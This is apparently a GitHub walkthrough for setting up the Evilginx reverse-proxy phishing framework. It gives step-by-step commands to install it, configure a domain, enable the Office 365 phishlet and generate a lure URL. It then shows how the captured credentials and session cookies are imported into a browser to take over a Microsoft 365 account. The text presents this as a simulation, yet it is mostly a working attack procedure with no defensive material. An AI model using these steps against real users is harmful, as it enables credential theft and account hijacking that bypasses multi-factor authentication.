Before proceeding with the installation of Evilginx, let’s ensure that wget is installed on the VPS.
```bash
sudo apt update 
sudo apt install wget -y
```


Next, let’s download the Go installation files.
```bash
wget https://golang.org/dl/go1.17.linux-amd64.tar.gz
```

Install Go by executing the following command:
```bash
sudo tar -zxvf go1.17.linux-amd64.tar.gz -C /usr/local/
```

Next, configure the PATH environment variable by running:
```bash
echo "export PATH=/usr/local/go/bin:${PATH}" | sudo tee /etc/profile.d/go.sh 
source /etc/profile.d/go.sh
```

Execute the following commands to clone the source files from GitHub:
```bash
sudo apt-get -y install git make 
git clone https://github.com/BakkerJan/evilginx2.git 
cd evilginx2 
make
```

After completing the cloning process, we can proceed to install Evilginx globally and run it.
```bash
sudo make install 
sudo evilginx
```

Now it is time to configure evilginx. We are going to simulate this with a Microsoft 365 account. For my domain, I am doing evilginxtest.shop. For my IP, it is: 52.144.47.242
```bash
config domain <yourdomain> 
config ip <yourIP> 
blacklist unauth
```

Next, let’s configure the Office 365 phishlet to match our domain.
```bash
phishlets hostname o365 <yourdomain> 
phishlets enable o365
```

If you encounter an SSL/TLS error at this stage, just keep re-running the command until it works. it indicates that your DNS records are not yet in place. When a phishlet is enabled, Evilginx attempts to obtain a free SSL certificate from LetsEncrypt for the new domain.
However, this process requires the domain to be accessible. Once the new SSL certificate is successfully activated, you can anticipate some traffic from scanners. If you’ve previously adjusted the blacklist to “unauth,” these scanners will be blocked.

In the next step, we’ll set the lure for the Office 365 phishlet and define the redirect URL. This URL comes into play after the credentials are phished and can be customized according to your preferences. For this example, we’ll use https://portal.office.com/.
```bash
lures create o365 
lures edit 0 redirect_url https://portal.office.com 
lures get-url 0
```

Our phishlet is now active and accessible via the URL https://login.evilginxtest.shop/RdgjuhBs (no longer active). When accessing the URL from the lure, you’ll be treated as an authenticated session, thus avoiding being blocked. 

Let us see what happens when a user goes to this link:

It seems like a regular microsoft login page.
![image](https://github.com/user-attachments/assets/dcf20d05-6fe2-40ff-97de-4fdee2eb6d06)

After entering the username and password, the user's credentials are caught through the reverse proxy the malicious domain simulates
![image](https://github.com/user-attachments/assets/b8fb9489-1cb8-4d6c-a3fc-38e4b8ee562f)

After a full sign in, we have got the session cookies. We can use the command "Sessions 0" (mine may be a different number, because I had multiple.)
![image](https://github.com/user-attachments/assets/8f293e48-b323-4167-8566-2102eec0da22)

And there you go. If you copy and paste these cookies after clearing your own into a cookie extension on your browser while on office.com, you refresh the page and you are in!





